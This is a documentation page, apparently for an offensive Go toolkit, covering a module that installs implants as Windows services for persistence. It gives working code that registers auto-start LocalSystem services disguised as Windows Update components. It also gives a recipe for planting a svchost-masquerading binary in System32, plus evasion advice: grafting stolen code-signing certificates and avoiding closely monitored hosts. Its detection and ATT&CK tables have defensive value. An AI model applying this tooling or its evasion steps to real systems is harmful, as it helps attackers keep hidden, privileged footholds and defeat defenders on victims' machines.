

# Windows service persistence

[← persistence index](README.md) · [docs/index](../../index.md)

## TL;DR

Install a Windows service via the Service Control Manager so the
implant runs as `LocalSystem` at every boot. Highest-trust
persistence available; also the loudest — service creation emits
System Event 7045 + Security Event 4697 on every modern Windows
host. Implements [`persistence.Mechanism`](https://pkg.go.dev/github.com/oioio-space/maldev/persistence)
for composition with other persistence primitives.

## Primer

Services are the canonical Windows mechanism for "long-running
process started by the OS, restarted on failure, runs as
LocalSystem unless told otherwise". Once installed, the
implant survives reboots, user logoffs, and most cleanup
sweeps that target user-scope artefacts (Run keys, StartUp
folders).

Trade-off: SCM database changes are universally audited. Mature
EDR stacks correlate Event 7045 against the binary path
(user-writable = bad), the signer (unsigned = bad), and the
service description (suspicious keywords). Pair with
[`pe/masquerade`](../pe/masquerade.md) (svchost preset),
[`pe/cert`](../pe/certificate-theft.md), and a binary path
inside `%SystemRoot%\System32\` for the lowest-noise install
operationally available.

## How It Works



The implementation uses `golang.org/x/sys/windows/svc/mgr`
under the hood — the standard svc.mgr package — to keep
the SCM interaction contract well-tested and conventional.
`Mechanism.Install` chains `Install` + (optionally)
`StartService`; `Mechanism.Uninstall` is `StopService` +
`DeleteService` with cleanup-pause semantics.

## API Reference

### `type StartType uint32`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/persistence/service#StartType)

| Value | Meaning |
|---|---|
| `StartAuto` | `SERVICE_AUTO_START` — launched at boot, post-network init |
| `StartManual` | `SERVICE_DEMAND_START` — operator triggers via `sc start` |
| `StartDisabled` | `SERVICE_DISABLED` — registered but won't launch |
| `StartBoot` | `SERVICE_BOOT_START` — kernel driver only (special case) |
| `StartSystem` | `SERVICE_SYSTEM_START` — kernel driver only (special case) |

### `type Config`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/persistence/service#Config)

| Field | Description |
|---|---|
| `Name` | Service short name (registry key under `HKLM\SYSTEM\CurrentControlSet\Services`) |
| `BinPath` | Full path to the service executable |
| `DisplayName` | UI-visible name (shown in services.msc) |
| `Description` | Long description (shown in services.msc properties) |
| `StartType` | One of the `StartType` constants |
| `Args` | Command-line arguments appended to `BinPath` at launch |
| `Account` | **Optional** service-account override. Empty → `LocalSystem` (default). Forms accepted: `.\\<user>` / `<host>\\<user>` (local), `<DOMAIN>\\<user>` (domain), `NT AUTHORITY\\NetworkService` / `NT AUTHORITY\\LocalService` (built-in low-priv). |
| `Password` | Plaintext password for the account. Ignored for built-in `NT AUTHORITY\\*` principals. |

> [!IMPORTANT]
> When `Account` is set to a normal local or domain user, the
> account MUST already hold `SeServiceLogonRight`. The package
> intentionally does not auto-grant the right (the LSA policy edit
> via `LsaAddAccountRights` is its own backlog item under P2.15).
> Operators run `secedit /import …` or
> `ntrights -u <user> +r SeServiceLogonRight` during deployment.
>
> Built-in `NT AUTHORITY\NetworkService` / `LocalService` already
> hold the right and need no password.

### Functions

| Symbol | Description |
|---|---|
| [`Install(cfg *Config) error`](https://pkg.go.dev/github.com/oioio-space/maldev/persistence/service#Install) | Standalone install — creates SCM entry, no start |
| [`Uninstall(name string) error`](https://pkg.go.dev/github.com/oioio-space/maldev/persistence/service#Uninstall) | Stop-if-running + delete |
| [`Service(cfg *Config) *Mechanism`](https://pkg.go.dev/github.com/oioio-space/maldev/persistence/service#Service) | `Mechanism` adapter for use with `persistence.InstallAll` |
| [`Exists(name string) bool`](https://pkg.go.dev/github.com/oioio-space/maldev/persistence/service#Exists) | SCM probe |
| [`IsRunning(name string) bool`](https://pkg.go.dev/github.com/oioio-space/maldev/persistence/service#IsRunning) | `QueryServiceStatusEx` SERVICE_RUNNING |
| [`Start(name string) error`](https://pkg.go.dev/github.com/oioio-space/maldev/persistence/service#Start) | `StartService` |
| [`Stop(name string) error`](https://pkg.go.dev/github.com/oioio-space/maldev/persistence/service#Stop) | `ControlService` SERVICE_CONTROL_STOP |

## Examples

### Simple — install + start

```go
import "github.com/oioio-space/maldev/persistence/service"

err := service.Install(&service.Config{
    Name:        "WinUpdateNotifier",
    DisplayName: "Windows Update Notification Center",
    Description: "Provides update notifications.",
    BinPath:     `C:\ProgramData\Microsoft\winupdate.exe`,
    StartType:   service.StartAuto,
})
if err != nil {
    panic(err)
}
_ = service.Start("WinUpdateNotifier")
```

### Composed — Mechanism + InstallAll redundancy

Pair with a Run-key fallback so loss of either mechanism does
not lose persistence.

```go
import (
    "github.com/oioio-space/maldev/persistence"
    "github.com/oioio-space/maldev/persistence/registry"
    "github.com/oioio-space/maldev/persistence/service"
)

mechs := []persistence.Mechanism{
    service.Service(&service.Config{
        Name:      "WinUpdate",
        BinPath:   `C:\ProgramData\Microsoft\winupdate.exe`,
        StartType: service.StartAuto,
    }),
    registry.RunKey(registry.HiveLocalMachine, registry.KeyRun,
        "WinUpdateBackup",
        `C:\ProgramData\Microsoft\winupdate.exe`),
}
errs := persistence.InstallAll(mechs)
for _, e := range errs {
    if e != nil {
        // partial install — verify which fired
    }
}
```

### Advanced — masqueraded binary in System32

The full-stealth recipe: emit a binary that masquerades as a
real svchost service host, drop it under `System32`, install
under a plausible service name.

```go
// At build time:
//   import _ "github.com/oioio-space/maldev/pe/masquerade/preset/svchost"
//   go build -o svc-update.exe ./cmd/implant

// On target (assumes admin):
import (
    "io"
    "os"

    "github.com/oioio-space/maldev/persistence/service"
)

const target = `C:\Windows\System32\svc-update.exe`

src, _ := os.Open("svc-update.exe")
dst, _ := os.Create(target)
_, _ = io.Copy(dst, src)
_ = src.Close()
_ = dst.Close()

_ = service.Install(&service.Config{
    Name:        "SvcUpdate",
    DisplayName: "Service Update Helper",
    Description: "Coordinates background service updates.",
    BinPath:     target,
    StartType:   service.StartAuto,
})
```

See [`ExampleService`](../../../persistence/service/service_example_test.go).

### Advanced — service-account override

When `LocalSystem` is too noisy, pin the service to a built-in
low-priv principal (no password needed) or to a normal user
that already holds `SeServiceLogonRight`.

```go
// 1. Built-in NT AUTHORITY\NetworkService — no password.
//    Already holds SeServiceLogonRight.
_ = service.Install(&service.Config{
    Name:        "WinUpdateNetCheck",
    DisplayName: "Windows Update Network Check",
    BinPath:     `C:\ProgramData\Microsoft\winupdate.exe`,
    StartType:   service.StartAuto,
    Account:     `NT AUTHORITY\NetworkService`,
})

// 2. Domain account. Account MUST already hold
//    SeServiceLogonRight (granted via secedit / GPO / LsaAddAccountRights).
_ = service.Install(&service.Config{
    Name:      "WinUpdateContext",
    BinPath:   `C:\ProgramData\Microsoft\winupdate.exe`,
    StartType: service.StartManual,
    Account:   `CORP\svc-winupdate`,
    Password:  os.Getenv("MALDEV_SVC_PWD"),
})
```

## OPSEC & Detection

| Artefact | Where defenders look |
|---|---|
| System Event 7045 (service installed) | Universal; high-fidelity SIEM rule when correlated against unsigned binary or user-writable path |
| Security Event 4697 (service installed) | Audit log; same population as 7045 |
| `services.msc` / `sc query` listing | Operator review; service description is the human-readable fingerprint |
| `autoruns.exe` highlight | Sysinternals Autoruns flags unsigned services in red |
| `HKLM\SYSTEM\CurrentControlSet\Services\<Name>` registry write | Sysmon Event 13 (registry value set); forensic timeline |
| Service binary path under `%TEMP%`, `%APPDATA%`, `%PROGRAMDATA%` | Defender heuristic; legitimate services live under `Program Files` or `System32` |
| Service running as `LocalSystem` with outbound HTTPS to non-MS endpoint | Behavioural EDR — outbound profile mismatch with claimed identity |
| Service with empty `DisplayName` / `Description` | Defender heuristic — legitimate services document themselves |

**D3FEND counters:**

- [D3-PSA](https://d3fend.mitre.org/technique/d3f:ProcessSpawnAnalysis/)
  — services.exe spawning unsigned binaries.
- [D3-SICA](https://d3fend.mitre.org/technique/d3f:SystemConfigurationDatabaseAnalysis/)
  — SCM database registry monitoring.

**Hardening for the operator:**

- Pair with [`pe/masquerade/preset/svchost`](../pe/masquerade.md)
  so the binary's PE metadata matches a real Microsoft service
  host.
- Pair with [`pe/cert.Copy`](../pe/certificate-theft.md) to
  graft an Authenticode blob (passes presence checks).
- Drop the binary under `%SystemRoot%\System32\` (admin
  required) — services in `Program Files` or `System32` draw
  less default scrutiny than ones under `%PROGRAMDATA%`.
- Populate `DisplayName` + `Description` with text that
  matches the cloned identity.
- Avoid this technique on hosts with strict service-creation
  audit (Microsoft LAPS-protected, enterprise SOC-monitored).

## MITRE ATT&CK

| T-ID | Name | Sub-coverage | D3FEND counter |
|---|---|---|---|
| [T1543.003](https://attack.mitre.org/techniques/T1543/003/) | Create or Modify System Process: Windows Service | full | D3-PSA, D3-SICA |

## Limitations

- **Admin required.** SCM `CreateService` needs
  `SC_MANAGER_CREATE_SERVICE` which is admin-gated.
- **Service binary contract.** The launched binary must
  implement the SCM control protocol (respond to
  `ServiceMain` start, `SERVICE_CONTROL_STOP` etc.) or it
  will be killed within ~30 s. Implants that don't implement
  the contract should run as `StartManual` + a separate
  trigger, or wrap the implant binary with the
  `golang.org/x/sys/windows/svc` runner.
- **Service-account override is one-step (P2.15 partial).**
  `Config.Account` + `Config.Password` propagate through to
  `mgr.CreateService` so non-LocalSystem services install
  fine. **The account MUST already hold
  `SeServiceLogonRight`** — this package does not auto-grant
  it. Built-in `NT AUTHORITY\NetworkService` /
  `LocalService` already hold the right and need no password.
  An LSA `LsaAddAccountRights` helper is queued under
  backlog row P2.15 for the day operators want one-shot
  user-account services.
- **Boot/System start types.** `StartBoot` / `StartSystem`
  are kernel-driver-only; userland binaries with these
  start types are rejected by SCM.
- **Pre-Vista compatibility.** Some legacy options
  (interactive desktop, etc.) are not exposed.

## See also

- [`pe/masquerade`](../pe/masquerade.md) — clone svchost
  identity for the service binary.
- [`pe/cert`](../pe/certificate-theft.md) — graft
  Authenticode signature.
- [`persistence/registry`](registry.md) — sibling lower-noise
  persistence to pair as a fallback.
- [`persistence/scheduler`](task-scheduler.md) — sibling
  lower-noise SYSTEM-scope persistence.
- [`cleanup`](../cleanup/README.md) — remove the service
  post-op.
- [Operator path](../../by-role/operator.md).
- [Detection eng path](../../by-role/detection-eng.md).
